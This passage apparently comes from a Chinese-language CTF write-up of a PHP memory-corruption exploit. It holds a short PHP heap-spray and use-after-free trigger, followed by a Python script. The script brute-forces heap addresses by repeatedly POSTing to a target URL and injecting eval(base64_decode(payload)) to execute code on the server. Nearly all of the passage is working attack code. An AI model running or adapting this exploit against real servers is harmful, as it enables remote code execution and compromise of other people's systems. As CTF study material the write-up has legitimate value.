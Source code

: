 ```php
for ($x = 0;$x < 0x100;$x++) {
    $s -> push(0x1234567812345678);
}
$s -> rewind();
unset($s[0]);
```

python部分比较简单，写好爆破部分就成，我写的很烂，师傅们看个大概就好：

```python
# -*- coding:utf8 -*-
import requests
import base64
import time
import urllib
from libnum import n2s


def bomb1(_url):
    content = None
    count = 1
    addr = 0x7f0000000000  # change here and bomb1() in php if failed
    while True:
        try:
            addr = addr + 0x10000000 / 2
            if count % 100 == 0:
                print "[+]Bomb " + str(count) + " times, address of first chunk maybe: " + str(hex(addr))
            content = requests.post(_url + "?test1=" + urllib.quote(n2s(addr)), data={
                "c": "eval(base64_decode('" + payload + "'));",
            }).content
            if "[!]" in content or "502 Bad Gateway" in content:
                count += 1
                continue
            break
        except:
            count += 1
            continue
    return content


def bomb2(_url, _addr1):
    content = None
    count = 1
    crashcount = 0
    while True:
        try:
            _addr1 = _addr1 + 0x200000
            if count % 10 == 0:
                print "[+]Bomb " + str(count) + " times, address of php chunk maybe: " + str(hex(_addr1))
            content = requests.post(_url + "?test2=" + urllib.quote(n2s(_addr1)), data={
                "c": "eval(base64_decode('" + payload + "'));",
            }).content
            if "[!]" in content or "502 Bad Gateway" in content:
                count += 1
                continue
            break
        except:
            count += 1
            crashcount += 1
            continue
    print "[+]PHP crash " + str(crashcount) + " times"
    return content
```